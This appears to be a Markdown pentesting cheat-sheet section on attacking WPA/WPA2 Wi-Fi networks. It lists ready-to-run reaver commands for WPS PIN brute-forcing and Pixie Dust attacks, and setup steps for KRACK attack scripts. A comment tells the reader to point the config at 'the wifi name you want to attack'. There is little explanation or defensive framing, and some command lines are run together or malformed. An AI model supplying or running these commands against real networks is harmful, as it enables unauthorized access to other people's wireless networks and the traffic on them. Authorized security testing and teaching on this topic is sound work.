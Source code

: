 ## <mark style="color:red;">WPA / WPA2 Attacks</mark>

### <mark style="color:orange;">WPS Attack</mark>

```
airmon-ng start wlan0
apt-get install reaver
wash -i wlan0mon -C
reaver -i wlan0mon -b <BSSID> -vv -S
#or, Specific attack
reaver -i -c <Channel> -b <BSSID> -p <PinCode> -vv -S
```

```
# Crack a WPS PIN:
reaver -vv --pixie-dust -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF

# Crack a WPS PIN with some delay between attempts:
reaver -vv --pixie-dust -N -L -d 5 -r 3:15 -T 0.5 -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

### <mark style="color:orange;">KRACK Attack</mark>

{% embed url="https://github.com/NoahhhRyan/krackattacks-test" %}

{% embed url="https://rootsaid.com/krack-test" %}

```
apt-get update apt-get install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
git clone https://github.com/NoahhhRyan/krackattacks-test.git
cd krackattacks-test-research cd krackattacks
chmod 777 krack-ft-test.py
chmod 777 disable-hwcrypto.sh
./disable-hwcrypto.sh
python krack-ft-test.py

# Set the network.conf file, in the directory, 
# you need to change the “testnet” in it to the wifi name you
#  want to attack, the password is arbitrary, and it is saved in
# the suite directory

sudo wpa_supplicant -D nl80211 -i wlan0 -c network.conf
```

{% embed url="https://www.krackattacks.com/#demo" %}

{% embed url="https://githubhelp.com/Scr561/krackattacks-scripts" %}

### <mark style="color:orange;">Enterprise Attacks</mark>

{% embed url="https://www.offensive-security.com/penetration-testing/hacking-wpa-enterprise-with-kali-linux" %}
